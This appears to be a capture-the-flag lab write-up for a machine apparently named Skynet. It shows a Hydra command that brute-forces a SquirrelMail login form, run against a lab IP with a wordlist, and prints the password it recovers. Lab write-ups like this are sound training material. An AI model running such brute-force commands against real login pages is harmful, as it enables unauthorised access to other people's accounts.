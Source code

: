 ![Pasted image 20241121134448.png](../../IMAGES/Pasted%20image%2020241121134448.png)

This directory contains a login, we can try brute forcing the login page assuming the username would be `milesdyson` and the password to be inside of `log1.txt`.

```ad-hint

#### Hydra Brute Force
---

For the brute force processs, i'll be using hydra, this is the following command:



This is a `POST` request, with the parameters: `login_username`, `secretkey`, so, the hydra command would be the following:

`hydra -l milesdyson -P log1.txt IP http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect" -t 20`

For this machine I used:

`hydra -l milesdyson -P log1.txt 10.10.183.201 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect" -t 20`

#### Output
---


We found our `milesdyson` username password, credentials would be the following:

`milesdyson`: `cyborg007haloterminator`


```

